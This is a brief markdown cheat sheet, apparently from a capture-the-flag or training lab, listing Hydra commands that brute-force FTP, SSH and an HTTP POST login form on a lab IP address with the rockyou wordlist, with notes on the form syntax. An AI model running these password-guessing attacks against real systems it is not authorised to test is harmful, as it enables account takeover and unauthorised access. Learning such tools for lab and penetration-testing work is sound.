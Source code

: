 # Hydra

### Brute force FTP
```
hydra -l username -P ~/Desktop/Tools/wordlists/rockyou.txt ftp://10.10.174.103
```

### Brute force SSH
```
hydra -l username -P ~/Desktop/Tools/wordlists/rockyou.txt ssh://10.10.174.103
```

### Brute force Post Web Form
```
hydra -l molly -P rockyou.txt 10.10.174.103 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

- http-post-form (the type of form is POST)
- -V (verbose output for every attempt)
- specified username replaces ^USER^, specified password replaces ^PASS^
- F=incorrect appears in server reply when login fails



